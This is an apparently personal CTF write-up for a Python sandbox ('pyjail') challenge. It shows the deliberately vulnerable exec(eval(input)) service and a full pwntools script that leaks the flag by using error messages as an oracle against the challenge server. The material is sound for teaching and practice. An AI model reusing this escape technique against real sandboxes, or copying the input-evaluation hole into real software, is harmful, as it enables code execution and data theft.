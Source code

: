 Source code:
```py
#!/usr/local/bin/python
flag = "".join([chr(i) for i in range(97, 123)] + ["{}"] + [chr(i) for i in range(65, 91)] + ["_"]) #example flag
for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```
OK now is the big boss. the previous two challs were really ez, since we used the exception handler.
Now, we are both limited asfuck, and it will not print the error to us.
BUT, we do know when an error occured. `zzzzz..zz` will be printed.
This is really helpull for us. we can trigger an error when some of condition is met, and we'll know if its true or not.
I used this trick to do a bruteforce byte byte on each character of the flag, and trigger an exception each time the character isn't correct.
First of all, we need numbers. its the key to win this challenge, and its not trivial because `0123456789` is restricted.
But, we can see that we can still use `=`. this is good to us, since we can just do `n='a'!='a'` and get `False`, which is equivilent to zero in python,
and `p='a'=='a'` to get one.
Then, we can change it as much as we want by doing something like `n=n+p`, which will add 1 to n each time.
Firstly, lets leak the size of the flag.
As we know, when u try to reach an outofbounds character in a string in python, an exception will be thrown.
We can use it here, and reach character in the flag until an error occured, and then we can know the length:

```py
def get_size():
	send("o='a'!='a'") #o = 0
	send("p='a'=='a'") #p = 1
	for i in range(100):
		send(f"_[o]")
		res = p.recvn(1)
		if res == b'z': #if it gave error
			return i
		send("o=o+p")
```

Now we can know the size of the flag!
But how can we know its contents? there is not really an exception we can use, since `{}` is forbidden and we can't use the same dict trick.
But, what about using the outofbounds error aswell? we can have a 1 element array, `m=['a']`.
Now, we'll brute force the character at `_[o]`, when `o` is an incrementer.
We'll iterate through each character in `chars = [chr(i) for i in range(97, 123)] + [chr(i) for i in range(65, 91)] + ["_"]`.
Then, we can use the expression `_[o] != '{c}'` to know if the current character is c or not. if it is `c`, it will return False, and if its not, it will return True.
But as we saw, False/True are equivilent to 0/1. we can create an array `m=['A']`. then, we can do `f"m[_[o]!='{c}']"`. if the character is not c, it will try to reach `m[1]` which will return an exception.
But if the next character is c, it will return an error to us! this way we can leak char-char the flag. Here is my code:
```py
chars = [chr(i) for i in range(97, 123)] + [chr(i) for i in range(65, 91)] + ["_"]
p = remote('amt.rs', 31672)

flag_size = 97 # get_size()

send("o='a'!='a'") #o = 0
send("p='a'=='a'") #p = 1
send("m=['A']")
flag = ""
for j in range(flag_size):
  found = False
	for c in chars:

		send(f"m[_[o]!='{c}']")
		res = p.recvn(1)
		if res == b'G': #if it didn't gave error
			flag += c
			found = True
			break
```
Look correct, right?
lets try to run it locally with
`flag = "".join([chr(i) for i in range(97, 123)] + ["{}"] + [chr(i) for i in range(65, 91)] + ["_"])`
and we'll get `abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_`. as u can see, all the blacklisted character aren't here. this happens because when we try to send `send(f"m[_[o]!='{c}']")` when c is blacklisted, it will continue.
We need a creative way of leaking blacklisted characters.
I have used the > operand to achieve that.

I created a function called `check_blacklisted`, which will take in a blacklisted charcter, and check if its the charcter at `_[o]`. I called the function like this:
```py
	if not found:
		for c in  sorted("lite{}")[::-1]: #blacklisted characters that can be in the flag
			if check_blacklisted(c):
				flag += c
				found = True
				break
		if not found:
			flag += '.'
```
My approach was simple; we can take the character before `c` in tems of ascii value, and check if its smaller than `_[o]`. we iterate through `sorted("lite{}")`, so once we find one character thats smaller then `c`, we know that c is in the flag.

```py
def check_blacklisted(c):
	low = ord(c) -1

	send(f"m[_[o]>'{chr(low)}']")
	res = p.recvn(1)

	if res == b'z': #if it gave error
		return True
	return False
```

So this way we can know each character in the flag! this was a really interseting challenge for me, and it was a good introudction to pyjails which I always wanted to learn.
Here is the complete code:
```py
from pwn import *


def send(a):
	global p
	p.recvuntil("code: ")
	p.sendline(a)

def get_size():
	send("o='a'!='a'") #o = 0
	send("p='a'=='a'") #p = 1
	for i in range(100):
		send(f"_[o]")
		res = p.recvn(1)
		if res == b'z': #if it gave error
			return i
		send("o=o+p")

def check_blacklisted(c):
	low = ord(c) -1

	send(f"m[_[o]>'{chr(low)}']")
	res = p.recvn(1)

	if res == b'z': #if it gave error
		return True
	return False

chars = [chr(i) for i in range(97, 123)] + [chr(i) for i in range(65, 91)] + ["_"]

p = process(['python3', 'main.py'])

flag_size = get_size()

send("o='a'!='a'") #o = 0
send("p='a'=='a'") #p = 1
send("m=['A']")
flag = ""
for j in range(flag_size):
	found = False

	for c in chars:

		send(f"m[_[o]!='{c}']")
		res = p.recvn(1)
		if res == b'G': #if it didn't gave error
			print("here")
			flag += c
			found = True
			break
	if not found:
		for c in  sorted("lite{}")[::-1]: #blacklisted characters that can be in the flag
			if check_blacklisted(c):
				flag += c
				found = True
				break
		if not found:
			flag += '.'
	print(flag, j)
	send("o=o+p") #o will increament each run

```

